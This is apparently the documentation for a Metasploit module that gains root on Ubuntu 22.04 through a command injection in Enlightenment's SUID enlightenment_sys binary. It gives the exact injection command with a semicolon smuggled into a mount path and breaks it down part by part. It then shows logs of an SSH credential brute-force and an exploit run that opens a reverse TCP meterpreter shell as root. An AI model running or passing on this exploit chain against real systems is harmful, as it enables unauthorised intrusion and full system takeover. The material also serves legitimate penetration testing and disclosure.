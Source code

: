 ## Vulnerable Application

This module exploits a command injection within Enlightenment's
`enlightenment_sys` binary. This is done by calling the mount
command and feeding it paths which meet all of the system
requirements, but execute a specific path as well due to a
semi-colon being used.
This module was tested on Ubuntu 22.04.1 X64 Desktop with
enlightenment 0.25.3-1 (current at module write time)

### Install

At the time of writing, it was possible to `apt install enlightenment` to
get a vulnerable version.

### Main Command Explanation

The main exploit command will look similar to the following (using `/tmp/exploit` as the payload path example):

`/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net`

This can be broken down in to several parts:

1. `/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys`
2. `/bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u)`
3. `"/dev/../tmp/;/tmp/exploit"`
4. `/tmp///net`

The first part calls the vulnerable executable which has `suid` set to root.

The second portion is a standard mount, command. `enlightenment_sys` has a fork in the code
for `mount`, which has the vulnerability in it.

The third portion starts with `/dev/` to prevent the binary from exiting.  It is wrapped in
double quotes, which are later removed by `enlightenment_sys` before running the command
resulting in the command injection.

Lastly `enlightenment_sys` checks that the last parameter is length 6, thus the extra `/`.
It then calls `stat64` on `/tmp///net` and we pass that check.

Now that all the checks have passed and the exploit code should go down the path to a `system`
call. Again, the quotes are removed around `"/dev/../tmp/;/tmp/exploit"` , allowing for the `;`
to be relevant and cause a command injection.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Get a userland shell
4. Do: `use exploits/linux/local/ubuntu_enlightenment_mount_priv_esc`
5. Do: `set session #`
6. Set payload and options for payload as needed
7. Do: `run`
8. You should get a root shell.

## Options

### WritableDir

A directory which is writable to drop our payload in. Defaults to `/tmp`

## Scenarios

### Ubuntu 22.04.1 Desktop with Enlightenment 0.25.3-1

Step 1, get a userland shell

```
resource (enlightenment.rb)> use auxiliary/scanner/ssh/ssh_login
resource (enlightenment.rb)> set username ubuntu
username => ubuntu
resource (enlightenment.rb)> set password ubuntu
password => ubuntu
resource (enlightenment.rb)> set rhosts 192.168.2.31
rhosts => 192.168.2.31
resource (enlightenment.rb)> run
[*] 192.168.2.31:22 - Starting bruteforce
[+] 192.168.2.31:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),134(lxd),135(sambashare) Linux ubuntu2204desktop 5.15.0-43-generic #46-Ubuntu SMP Tue Jul 12 10:30:17 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (192.168.2.199:35675 -> 192.168.2.31:22) at 2022-10-01 10:02:53 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Step 2, run exploit

```
resource (enlightenment.rb)> use exploits/linux/local/ubuntu_enlightenment_mount_priv_esc
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
resource (enlightenment.rb)> set session 1
session => 1
resource (enlightenment.rb)> set verbose true
verbose => true
msf6 exploit(linux/local/ubuntu_enlightenment_mount_priv_esc) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: 
[*] Started reverse TCP handler on 192.168.2.199:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Found binary: /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
[+] It's set for SUID
[+] The target appears to be vulnerable.
[*] Finding enlightenment_sys
[+] Found binary: /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
[+] It's set for SUID
[*] Writing '/tmp/.7n09J2bt6' (250 bytes) ...
[*] Max line length is 65537
[*] Writing 250 bytes in 1 chunks of 735 bytes (octal-encoded), using printf
[*] Creating folders for exploit
[+] Found binary: /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
[+] It's set for SUID
[*] Launching exploit...
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045348 bytes) to 192.168.2.31
[*] Meterpreter session 2 opened (192.168.2.199:4444 -> 192.168.2.31:54700) at 2022-10-01 10:03:12 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.2.31
OS           : Ubuntu 22.04 (Linux 5.15.0-43-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
